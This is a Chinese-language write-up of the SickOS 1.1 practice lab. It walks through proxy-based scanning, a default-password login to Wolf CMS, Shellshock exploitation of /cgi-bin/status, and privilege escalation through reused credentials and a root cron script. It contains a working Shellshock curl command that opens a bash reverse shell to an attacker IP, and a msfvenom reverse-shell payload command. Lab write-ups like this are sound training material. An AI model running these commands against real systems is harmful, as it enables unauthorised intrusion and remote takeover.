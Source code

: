 # SickOS 1.1(X)

## namp扫描分析

![alt text](img/image.png)  

## squid代理分析

squid是一个代理软件，直接访问3128端口无效
我们需要通过代理访问，如图
![alt text](img/image-1.png)  
然后可以访问80端口  
同时，扫描时也需要通过代理参数扫描，dirb、nikto等

```
dirb http://10.10.10.19 -p http://10.10.10.19:3128  

nikto -h 10.10.10.19 -useproxy http://10.10.10.19:3128
```

![alt text](img/image-3.png)  
![alt text](img/image-6.png)  

## web渗透

### 方法1

当我们可以访问robots.txt时，可以发现wolfcms路径，这是一个wolf cms，  
cms的渗透思路就是，找管理员后台  
然后默认密码，弱口令尝试，或者通过cms版本漏洞进行利用  
当我们进入主页面时可以看到url是这样的  
![alt text](img/image-4.png)  
与常规的url不一样，有? 然后我们通过google找到的管理员后台也有问号，以此知道  

```
10.10.10.19/wolfcms/?/admin/login
```

然后就是看这个cms是否开源，是否有默认密码，然后在admin:admin成功登录  
进入后台之后有很多利用点，执行php代码，文件上传等能够获得webshell  

### 方法2

我们从nikto的结果来看可以看到/cgi-bin/status有shellshock漏洞  
接下来可以用curl验证shellshock漏洞，注意ua头冒号后面有两个空格  

```
User-Agent:  () { :; };echo Content-Type: text/plain; echo; /bin/ls;
```

反弹shell，这个shellshock一般存在cgi接口处，原理就不解释了  

```
curl -v --proxy http://10.10.10.19:3128 http://10.10.10.19/cgi-bin/status  
-H "User-Agent:  () { :; };/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/8888 0>&1';"
```

## 提权

### 方法1

在获得初始shell之后，我们进行一系列基本操作之后，我们可以发现web目录下的config.php  
![alt text](img/image-5.png)  
里面有数据库连接凭据，这当然不会直接是root的密码，我们可以用这个密码尝试其他用户  
然后我们能够登录sickos用户，并且sudo su能够直接提权  

### 方法2

在web目录下可以看到一个777的py文件  
![alt text](img/image-7.png)  
同时我们在/etc/cron.d/automate文件里看到了这个文件将以root身份执行  
![alt text](img/image-8.png)  
在这里我们就了解到任务计划不只是在/etc/crontab文件里  
我们可以用msfvenom生成一句反弹shell的话，如下  

```
msfvenom -p cmd/unix/reverse_python lhost=10.10.10.10 lport=6666 -f raw
```
然后我又发现了一个在线网站

```
https://www.revshells.com/
```
开启监听，等待即可root

## 总结

方法1这个提权不是难度，但如果是初次接触代理，可能就没法进行下一步。  
方法2则是寻找任务计划程序，不是那么容易，不过我们找到能够特殊的py文件之后  
应该可以想到，然后再去寻找任务计划文件，还有就是msfvenom生成反弹shell语句。  

